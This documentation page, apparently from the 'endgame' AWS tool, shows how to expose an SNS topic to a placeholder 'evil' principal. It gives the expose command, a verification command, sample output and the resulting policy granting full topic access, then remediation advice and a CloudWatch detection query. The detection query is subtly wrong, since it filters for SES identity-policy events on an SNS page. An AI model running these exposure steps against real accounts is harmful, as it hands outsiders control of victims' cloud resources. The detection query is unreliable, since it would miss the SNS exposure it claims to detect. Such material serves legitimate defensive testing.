 # SNS

## Steps to Reproduce

* To expose the resource using `endgame`, run the following from the victim account:

```bash
export EVIL_PRINCIPAL=arn:aws:iam::999988887777:user/evil

endgame expose --service sns --name test-resource-exposure
```

* To verify that the SNS topic has been shared with the evil principal, run the following from the victim account:

```bash
export VICTIM_RESOURCE=arn:aws:sns:us-east-1:111122223333:test-resource-exposure

aws sns get-topic-attributes \
    --topic-arn $VICTIM_RESOURCE
```

* Observe that the contents match the example shown below.

## Example

The output will have the following structure:

```json
{
    "Attributes": {
        "SubscriptionsConfirmed": "1",
        "DisplayName": "my-topic",
        "SubscriptionsDeleted": "0",
        "EffectiveDeliveryPolicy": "",
        "Owner": "111122223333",
        "Policy": "SeeBelow",
        "TopicArn": "arn:aws:sns:us-east-1:111122223333:test-resource-exposure",
        "SubscriptionsPending": "0"
    }
}
```

The prettified version of the `Policy` key is below. Observe how the content of the policy grants the evil principal's account ID (`999988887777`) maximum access to the SNS topic.

```json
{
  "Version": "2008-10-17",
  "Id": "__default_policy_ID",
  "Statement": [
    {
      "Sid": "Endgame",
      "Effect": "Allow",
      "Principal": {
        "AWS": "999988887777"
      },
      "Action": [
        "SNS:AddPermission",
        "SNS:DeleteTopic",
        "SNS:GetTopicAttributes",
        "SNS:ListSubscriptionsByTopic",
        "SNS:Publish",
        "SNS:Receive",
        "SNS:RemovePermission",
        "SNS:SetTopicAttributes",
        "SNS:Subscribe"
      ],
      "Resource": "arn:aws:sns:us-east-1:111122223333:test-resource-exposure"
    }
  ]
}
```

## Exploitation

```
TODO
```

## Remediation

* **Trusted Accounts Only**: Ensure that SNS Topics are only shared with trusted accounts, and that the trusted accounts truly need access to the SNS Topic.
* **Ensure access is necessary**: For any trusted accounts that do have access, ensure that the access is absolutely necessary.
* **AWS Access Analyzer**: Leverage AWS Access Analyzer to report on external access to SNS Topics. See [the AWS Access Analyzer documentation](https://docs.aws.amazon.com/IAM/latest/UserGuide/access-analyzer-resources.html) for more details.
* **Restrict access to IAM permissions that could lead to exposure of your SNS Topics**: Tightly control access to the following IAM actions:
  - [sns:AddPermission](https://docs.aws.amazon.com/sns/latest/api/API_AddPermission.html): _Adds a statement to a topic's access control policy, granting access for the specified AWS accounts to the specified actions._
  - [sns:RemovePermission](https://docs.aws.amazon.com/sns/latest/api/API_RemovePermission.html): _Removes a statement from a topic's access control policy._
  - [sns:GetTopicAttributes](https://docs.aws.amazon.com/sns/latest/api/API_GetTopicAttributes.html): _Returns all of the properties of a topic. This includes the resource-based policy document for the SNS Topic, which lists information about who is authorized to access the SNS Topic_
  - [sns:ListTopics](https://docs.aws.amazon.com/sns/latest/api/API_ListTopics.html): _Returns a list of the requester's topics._

Also, consider using [Cloudsplaining](https://github.com/salesforce/cloudsplaining/#cloudsplaining) to identify violations of least privilege in IAM policies. This can help limit the IAM principals that have access to the actions that could perform Resource Exposure activities. See the example report [here](https://opensource.salesforce.com/cloudsplaining/)

## Basic Detection
The following CloudWatch Log Insights query will include exposure actions taken by endgame:
```
fields eventTime, eventSource, eventName, userIdentity.arn, userAgent 
| filter eventSource='ses.amazonaws.com' AND (eventName='PutIdentityPolicy' or eventName='DeleteIdentityPolicy')
```

This query assumes that your CloudTrail logs are being sent to CloudWatch and that you have selected the correct log group.

## References

* [add-permission](https://awscli.amazonaws.com/v2/documentation/api/latest/reference/sns/add-permission.html)